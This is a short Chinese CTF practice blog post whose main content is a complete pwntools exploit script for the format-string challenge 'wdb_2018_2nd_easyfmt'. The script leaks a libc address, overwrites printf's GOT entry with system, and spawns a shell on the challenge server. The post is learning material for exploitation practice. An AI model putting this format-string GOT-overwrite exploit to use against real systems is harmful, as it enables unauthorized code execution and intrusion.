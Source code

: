 ```yaml
---
title: pwn刷题
abbrlink: 26324
tags:
date: 2021-07-24
---
```

把之前记的一些题目汇总了一下，没有任何顺序，好像也不是很全...



[堆相关漏洞利用libc异常提示原因记录_jmp esp-CSDN博客](https://blog.csdn.net/qq_29343201/article/details/66473140)


## wdb_2018_2nd_easyfmt

```
from pwn import *
from LibcSearcher import *
p = process("./fmt")
p = remote("node4.buuoj.cn",27907)
context.log_level = "debug"
elf = ELF("./fmt")
libc = ELF("./libc-2.23.so")
printfgot = elf.got['printf']

print p.recv()
p.sendline(p32(printfgot)+"%6$s")

#gdb.attach(p)
#pause()
#print p.recv()
print p.recv(4)

#printf = u32(p.recvuntil('\xf7')[-4:])
printf = u32(p.recv(4))
print hex(printf)
#libc = DynELF(leak,elf=elf_)
libc=LibcSearcher("printf",printf)
#ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64)
system = printf - libc.dump("printf") + libc.dump("system")

#system = printf - libc.sym['printf'] + libc.sym['system']
success(hex(system))
#print_addr = 

## useful tool:
payload = fmtstr_payload(6,{printfgot: system})

p.sendline(payload)
sleep(0)
p.sendline("/bin/sh\x00")
sleep(0)
p.interactive()

```
